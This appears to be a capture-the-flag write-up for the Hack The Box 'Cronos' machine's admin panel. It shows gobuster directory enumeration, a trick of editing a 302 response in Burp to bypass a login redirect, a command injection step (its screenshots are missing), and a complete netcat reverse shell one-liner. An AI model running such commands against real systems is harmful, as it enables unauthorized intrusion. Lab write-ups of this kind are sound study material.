








# 15 - Admin-Cronos


# Index page



# Gobuster
```sql
──(kali㉿kali)-[10.10.14.9/23]-[~/htb/cronos]
└─$ gobuster dir -u admin.cronos.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster/admin.log  -t 100 -x ".php,.html,.txt" 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://admin.cronos.htb
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
2021/05/28 17:42:34 Starting gobuster in directory enumeration mode
===============================================================
/welcome.php          (Status: 302) [Size: 439] [--> index.php]
/index.php            (Status: 200) [Size: 1547]               
/logout.php           (Status: 302) [Size: 0] [--> index.php]  
/config.php           (Status: 200) [Size: 0]                  
/session.php          (Status: 302) [Size: 0] [--> index.php]  
/server-status        (Status: 403) [Size: 304]                
```

Notice  the size of welcome.php, it has probably more than just the redirection.


# welcome.php 

Let's view the request and response from/to welcome.php on Burp



  
And here is the response, in order to catch the response on burp, go to **Options** and check **Intercept responses based on  the following rules** under **Intercept Server Responses**. By default it will send the response to our browser.



Before forwarding the response, response code must be changed to 200 and location header should be omitted otherwise before seeing the body of welcome.php, we will be redirected.
```bash
HTTP/1.1 200 Found # change it from 302 to 200
Location: index.php # remove this line
```

# welcome.php



# Command Injection

Before doing command injection I'll open up a python web server

```py
$ sudo python3 -m http.server 80
```

Let's inject our command now





Yes we gained remote code execution, let's try to get a reverse shell now.


# config.php & mysql creds



# Reverse Shell
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```


